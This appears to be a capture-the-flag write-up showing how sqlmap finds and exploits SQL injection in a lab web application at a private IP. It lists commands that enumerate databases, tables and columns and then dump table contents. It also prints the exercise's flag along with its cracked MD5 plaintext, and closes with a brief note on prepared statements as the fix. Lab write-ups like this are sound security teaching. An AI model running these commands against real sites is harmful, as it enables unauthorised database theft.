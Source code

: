 # SQL_Injection
Ahhhh the notorious SQL Injection again. blah blah blah we know the drill. However this time we will make use of a web scanning programme, that will not only find the web application's vulnerabilities but also also exploit them for us. It is called sqlmap.

## Example
For this part we will be making use of out terminal. We'll use the same url like the one we used in SQL_Injection. By using a series of commands we will not only be able to view the database but also save and make use of it's contents

## Commands
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#"
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dbs
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --tables -D Member_images
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --columns -D Member_images -T list_mages
sqlmap  -u "http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_images -T list_mages
        options [Y, Y, D, N];

Hack me ?,If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
flag: 1928e8083cf461a51303633093573c46 -md5> albatroz -sha256> 5d5b09f6dcb2d53a5fffc60c4ac0d55fabdf556069d6631545f42aa6e3500f2e

## Remedy
1. Similar to direct SQL_Injection this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc